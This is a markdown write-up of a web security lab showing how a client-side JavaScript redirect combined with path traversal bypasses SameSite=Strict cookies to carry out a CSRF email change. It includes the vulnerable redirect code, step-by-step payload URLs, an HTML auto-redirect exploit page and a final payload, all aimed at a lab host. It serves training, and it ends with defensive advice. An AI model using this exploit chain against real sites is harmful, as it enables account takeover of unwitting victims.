

---

# 🛡️ Lab: SameSite Strict bypass via client-side redirect


## 📌 Lab Overview

This lab demonstrates how `SameSite=Strict` protections can be bypassed using a **client-side redirect gadget**.

The goal is to perform a **CSRF attack** that changes the victim’s email address despite strict cookie restrictions.

---

## 🎯 Objective

Exploit a client-side redirect vulnerability to:

* Bypass `SameSite=Strict`
* Perform a CSRF attack
* Change the victim’s email address

---

## 🔍 Recon & Initial Analysis

### Captured Request

```http
POST /my-account/change-email HTTP/2
Host: [LAB-ID].web-security-academy.net
Cookie: session=...

email=wiener%40notnormal-user.nt&submit=1
```

### 🚨 Key Findings

* ❌ No CSRF token → Potentially vulnerable
* ✅ Cookie uses `SameSite=Strict`
* ⚠️ Direct CSRF **fails** due to Strict policy
* 📌 `Referer` header hinted at `/my-account?id=wiener`

➡️ This suggested some **client-side navigation behavior**

---

## 🔎 Finding the Gadget

Discovered endpoint:

```http
GET /post/comment/confirmation?postId=1
```

### Observed Behavior

* Page loads after posting a comment
* Waits ~3 seconds
* Redirects using JavaScript

---

## ⚠️ Vulnerable Code

```javascript
const urlParams = new URLSearchParams(window.location.search);
const postId = urlParams.get('postId');

setTimeout(() => {
    window.location = '/post/' + postId;
}, 3000);
```

---

## 💥 Vulnerability

### Root Cause

* User-controlled input (`postId`)
* Directly concatenated into URL
* No validation/sanitization

### Impact

➡️ **Open redirect + path traversal**

---

## 🔓 Exploitation Strategy

### Step 1: Path Traversal Injection

```http
/post/comment/confirmation?postId=1/../../my-account
```

✅ Successfully escapes `/post/` directory

---

### Step 2: Target Sensitive Endpoint

```http
/post/comment/confirmation?postId=1/../../my-account/change-email
```

---

### Step 3: Add Malicious Parameters

```http
/post/comment/confirmation?postId=1/../../my-account/change-email?email=hacker@evil.com&submit=1
```

➡️ URL-encoded version:

```http
/post/comment/confirmation?postId=1/../../my-account/change-email?email=hacker%40evil.com%26submit=1
```

---

## 💣 Final Exploit

```html
<!DOCTYPE html>
<html>
<head>
    <title>SameSite Strict Bypass</title>
</head>
<body>
    <script>
        var exploitUrl = "https://YOUR-LAB-ID.web-security-academy.net" +
            "/post/comment/confirmation" +
            "?postId=1/../../my-account/change-email" +
            "?email=pwned%40web-security-academy.net%26submit=1";

        document.location = exploitUrl;
    </script>
</body>
</html>
```

---

## 🔁 Attack Flow

```
Victim visits attacker page
        ↓
Top-level navigation to target site
        ↓
✅ SameSite=Strict cookie is sent
        ↓
Client-side JS executes redirect
        ↓
Path traversal resolves to:
/my-account/change-email
        ↓
✅ Same-site request → cookie included
        ↓
Email changed
        ↓
✅ Exploit successful
```

---

## 🧠 Why This Bypass Works

### Key Insight

| Step            | Context                               | Cookie Sent? |
| --------------- | ------------------------------------- | ------------ |
| Initial request | Cross-site (top-level navigation)     | ✅ Yes        |
| JS redirect     | Same-site (executed on target origin) | ✅ Yes        |

---

### 🔥 Critical Concept

> Client-side redirects are treated as **new same-site requests**, not part of the original cross-site chain.

➡️ This breaks the protection model of `SameSite=Strict`

---

## 📊 Client-Side vs Server-Side Redirect

| Type                  | Behavior               |
| --------------------- | ---------------------- |
| **Client-side (JS)**  | ✅ Treated as same-site |
| **Server-side (302)** | ❌ Still cross-site     |

---

## 🧠 Key Takeaways

* `SameSite=Strict` is **not foolproof**
* Client-side redirect gadgets can fully bypass it
* Path traversal + redirect = powerful combo
* Never allow **state-changing actions via GET**
* Always implement **CSRF tokens**

---

## 🧪 Exploitation Process Summary

| Step | Action                        | Result                 |
| ---- | ----------------------------- | ---------------------- |
| 1    | Analyze POST request          | No CSRF token found    |
| 2    | Investigate Referer           | Found hint to redirect |
| 3    | Explore confirmation endpoint | Found JS redirect      |
| 4    | Inject payload in `postId`    | Confirmed control      |
| 5    | Use path traversal            | Escaped directory      |
| 6    | Chain with change-email       | ✅ Exploit successful   |

---

## 🏁 Conclusion

The application is vulnerable because it:

* Relies on `SameSite=Strict` instead of CSRF tokens
* Uses unsafe client-side redirects
* Fails to validate user input (`postId`)
* Allows state-changing actions via GET

➡️ This combination enables a full CSRF attack despite strict cookie protections.

---

## 💀 Final Payload

```http
https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1
```

---
